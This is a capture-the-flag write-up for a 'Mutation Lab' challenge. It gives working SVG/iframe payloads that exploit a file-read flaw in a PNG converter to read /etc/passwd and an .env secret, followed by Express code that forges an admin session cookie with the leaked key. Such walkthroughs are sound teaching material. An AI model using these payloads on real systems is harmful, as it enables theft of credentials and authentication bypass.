




# Mutation Lab

The front page of the challenge is the login screen that also has register function. 



After creating new account and logging to the service, we are redirected to our dashboard. We do not have access to source code, so the hint that we have to login as administrator is really helpful.



Main functionality (marked with an arrow) is creating the `.png` file from `.svg` by sending the POST request with xml svg payload with in it.

After some research I found the article about LFI during conversion in convert-svg-to-png package- [https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244). Turned out it works and you can read local files, including source code.

## Payload
```
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```

## Reading the source code:


In index.js I saw, that they use secret from `/app/.env` file, so I extracted that and signed my own cookie and login as an administrator.

## Payload to read secret:
```
<svg-dummy></svg-dummy>
<iframe src="file:///app/.env" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```
The results look as follows


Now we can use the simple Express code to create your own signed cookie.
```
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()

app.set('trust proxy', 1) // trust first proxy

app.use(cookieSession({
  name: 'session',
  keys: ['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', function (req, res, next) {
  // Update views
  req.session.username = "admin"

  // Write response
  res.end(req.session.username + ' views')
})

app.listen(3000)
```

After copying the cookie from our fake application on localhost to the challenge application, we got the flag

## Flag

